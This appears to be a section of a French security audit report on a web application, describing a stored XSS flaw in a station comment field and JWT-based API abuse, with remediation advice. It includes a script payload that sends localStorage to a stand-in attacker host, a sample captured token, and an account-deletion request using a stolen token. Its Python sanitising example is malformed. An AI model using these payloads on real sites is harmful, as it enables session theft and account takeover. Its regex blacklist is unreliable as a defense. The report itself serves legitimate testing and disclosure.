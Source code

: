 ## 3. ⚠️ Vulnérabilités identifiées

### 3.1 💥 Vulnérabilité XSS (Cross-Site Scripting stocké)
- **Localisation** : champ commentaire des stations
- **Payloads testés** :
  ```html
  <script>alert(1)</script>
  <script>
  fetch("http://attacker.oast.pro/capture?ls=" + JSON.stringify(localStorage))
  </script>
  ```
- **Données capturées** :
  ```json
  {
    "auth_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
    "auth_user": "{"id":"683d6f...","email":"oui@oui.com","name":"Oui"}"
  }
  ```

#### 🎯 Impact :
- Exécution de JavaScript arbitraire
- Vol du `localStorage`
- Prise de contrôle de session

#### ✅ Recommandations :
- Filtrage des caractères spéciaux via regex :
  ```regex
  [<>{}()"'/;]
  ```
- Exemple Python :
  ```python
  import re
  def is_comment_valid(comment):
      return not bool(re.search(r'[<>{}()"'/;]', comment))
  ```
- CSP (Content Security Policy) stricte
- Sanitation via bibliothèques sécurisées (DOMPurify, bleach…)

---

### 3.2 🔓 Manipulation de l’API via token JWT
- **Accès au token** : via XSS
- **Scénarios testés** :
  - Suppression de compte via `/api/delete_account`
  - Modification via `/api/update_profile`

- **Exemple d’exploitation** :
  ```http
  DELETE /api/delete_account
  Authorization: Bearer <token_volé>
  ```

#### 🎯 Impact :
- Suppression non autorisée de compte
- Usurpation d'identité
- Modification de données sensibles
